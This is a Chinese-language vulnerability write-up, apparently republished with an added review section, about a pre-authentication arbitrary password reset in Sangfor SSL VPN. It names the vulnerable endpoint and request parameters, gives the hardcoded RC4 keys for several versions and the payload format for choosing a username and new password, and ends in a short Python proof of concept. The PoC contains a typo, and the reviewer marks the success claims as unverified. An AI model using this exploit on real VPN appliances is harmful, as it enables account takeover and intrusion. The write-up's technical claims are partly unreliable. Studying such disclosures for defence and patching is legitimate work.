

# 深信服 SSL VPN - Pre Auth 任意密码重置

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：Sangfor SSL VPN
- 本文讨论：por/changepwd.csp RC4参数密码重置
- 版本、权限与配置前提：M7.6.1/M7.6.6R1不同key；M7.6.8R2删函数、打补丁不可用
- 资料类型：VPN认证前改密研究残缺转载；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- Python开头rom缺f，Python2 encode(hex)/print未标；简介为空，原始来源仅博客首页
- 最初说key20100720需按后文版本区分；5.x–7.x补丁称谓不精确

### 操作风险与恢复

- 账户操作会新增用户或更改认证材料，可能使原用户失去访问；须核对角色、操作前账户状态及恢复路径

### 待核与来源

- 官方补丁名称/版本及RC4长度语义待回源
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->

一、漏洞简介
------------

二、漏洞影响
------------

高版本(如M7.6.8R2) 直接删除相关函数

低版本(如M7.6.6R1) 升级版存在此漏洞

打了 5.x-7.x 补丁的无法利用

三、复现过程
------------

### 漏洞分析

差不多的逻辑

唯独多了个 RC4 解密，key 是 20100720

在数据提取中写的有点奇怪,使用,和=作为分隔符，所以我们的数据也要类似如：

`,username=test,ip=127.0.0.1,grpid=1,pripsw=suiyi,newpsw=QQ123456,`

M7.6.6R1 key 为 `20181118`

M7.6.1 key 为 `20100720`

其他版本另寻

    https://www.0-sec.org/por/changepwd.csp

    sessReq=clusterd&sessid=0&str=RC4_STR&len=RC4_STR_LEN

### poc

> poc.py

    rom Crypto.Cipher import ARC4
    from binascii import a2b_hex

    def myRC4(data,key):
        rc41 = ARC4.new(key)
        encrypted = rc41.encrypt(data)
        return encrypted.encode('hex')

    def rc4_decrpt_hex(data,key):
        rc41 = ARC4.new(key)
        return rc41.decrypt(a2b_hex(data))
    key = '20100720'
    data = r',username=2003010002,ip=127.0.0.1,grpid=1,pripsw=suiyi,newpsw=zxc123,'
    a = myRC4(data, key)
    print a
    print len(a)

参考链接
--------

> https://blog.sari3l.com/
